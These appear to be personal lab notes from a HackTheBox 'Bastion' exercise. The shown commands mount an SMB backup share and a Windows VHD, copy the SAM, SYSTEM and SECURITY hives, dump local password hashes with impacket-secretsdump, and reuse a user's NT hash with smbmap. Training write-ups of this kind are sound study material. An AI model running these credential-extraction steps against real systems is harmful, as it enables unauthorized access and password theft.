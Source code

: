```
sudo mkdir /mnt/bastion
sudo mount -t cifs //10.129.1.39/Backups /mnt/bastion

sudo mkdir /mnt/vhd
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
```

! To check files use root user. Normal user get empty from the /mnt/
```
cp SAM SYSTEM SECURITY /home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Bastion

impacket-secretsdump -system SYSTEM -sam SAM LOCAL | tee addump
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY LOCAL | tee addump
cat addump | grep ":::" | cut -d: -f4

smbmap -u L4mpje -p 9bfe57d5c3309db3a151772f9d86c6cd -H 10.129.209.215
```

### Unmount do this later. It might crash the machine or vpn. Reset everything if smell funcky
`guestunmount`

